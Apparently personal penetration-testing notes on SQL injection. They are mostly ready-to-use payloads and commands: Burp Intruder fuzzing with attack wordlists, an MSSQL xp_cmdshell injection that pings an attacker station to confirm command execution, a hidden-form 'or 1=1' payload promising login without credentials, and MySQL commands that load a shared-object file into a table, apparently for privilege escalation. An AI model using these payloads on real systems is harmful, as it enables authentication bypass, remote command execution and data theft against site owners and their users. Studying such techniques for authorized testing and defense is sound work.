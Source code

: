 fuzzing all of the fields in the new site

I fired up BurpSuite, captured the request to contact.php?id=1 and send it to Intruder.

/usr/share/wordlists/wfuzz/Injections/All_attack.txt

#### Test the SQL remote command injection with tcpdump running

start the tcpdump tool

```
Root@kali> tcpdump icmp[icmptype]=icmp-echo -vvv -s 0 -X -i any -w ping.pcap

```
Try using double quote (") if single quote (') is not working. inject the following command

```
'; exec master..xp_cmdshell 'ping *attack-station*'—

```

### sql injection to hidden form


If you must do this with a hidden field, just download the source HTML from the site, save it in your hard disk, modify the URL and hidden field accordingly. 

```

<FORM action=http://duck/Search/search.asp method=post>
<input type=hidden name=A value="hi' or 1=1--">
</FORM>
```
If luck is on your side, you will get login without any login name or password. ![image.png](attachment:image.png)





### Burp SQL manual injections

use burp intruder to inject sql from wordlists

```
/usr/share/wfuzz/wordlist/Injections
```


### SQL commands

```
mysql -u root -p

show databases;

use *database*;

select * from users;

select * from users where name = 'test' and password = '123456';

create table myexploit(line blob);

insert into myexploit values(load_file('/home/folder/1518.so'));

```
